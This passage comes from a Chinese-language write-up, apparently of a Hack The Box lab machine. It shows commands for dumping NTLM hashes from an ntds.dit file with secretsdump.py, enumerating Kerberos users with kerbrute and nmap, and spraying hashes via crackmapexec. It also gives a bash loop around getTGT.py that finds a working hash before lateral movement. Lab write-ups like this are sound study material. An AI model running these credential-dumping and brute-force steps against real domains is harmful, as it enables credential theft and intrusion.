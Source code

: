 使用secretsdump.py读取ntds中的数据：
```
secretsdump.py -ntds Active\ Directory/ntds.dit -system registry/SYSTEM local
```
local是进行本地转储，那么为什么需要SYSTEM这个文件呢，因为ntds是加密的，解密需要syskey，而syskey就存在于SYSTEM文件中。 随后得到了一大堆NTLM hash和用户名。  

## pre-authentication机制  

这是一个预验证机制，在域中通过kerberos验证有效的用户名和无效的用户名返回的结果不一样，根据这个原理我去找出可以用的用户名，这里需要用到一个工具叫kerbrute，当然也可以用nmap脚本进行探测。[userlist]是经过awk分隔后装有username的文件。  
```
./kerbrute userenum -d htb.local --dc htb.local [userlist]
```
```
nmap -6 -p88 --script krb5-enum-users --script-args krb5-enum-users.realm='htb.local',userdb=[userlist] htb.local
```
![](img/2024-03-16-16-04-31.png)  

## hash碰撞及失败分析  

我们得到用户后，还有hash，那么我们需要用能够pass the hash 的工具进行hash碰撞，crackmapexec，ldap、winrm和smb协议都是可以的在这台机器上，优先考虑smb。  
```
crackmapexec smb htb.local -u user_3 -H hash_list
```
爆破失败，并且之后连接不上服务器，那么很可能是服务器做了一些设置，防止爆破。  

## getTGT.py和shell脚本获得正确hash  

由于crackmapexec会导致连接不上服务器，那么我们便不再用这个工具，这里up主提供的思路是，用getTGT.py去申请票据，如果凭据正确，本地就会生成一个保存着ticket的文件，根据这个思路写一个bash脚本，同时用watch "ls -la | tail -2" 监视目录的文件情况，tail是取最后两行结果。  
```
#!/bin/bash

while IFS=" " read -r LINE || [ -n "${LINE}"]
do
    echo "=============="
    echo "Feed th hash : ${LINE}"
    /.../getTGT.py htb.local/henry.vinson@htb.local -hashes ${LINE}

done < hash_list
```
![](img/2024-03-16-16-35-47.png)  
得到了hash，我们就可以尝试可以pass the hash的工具进行横向移动。  
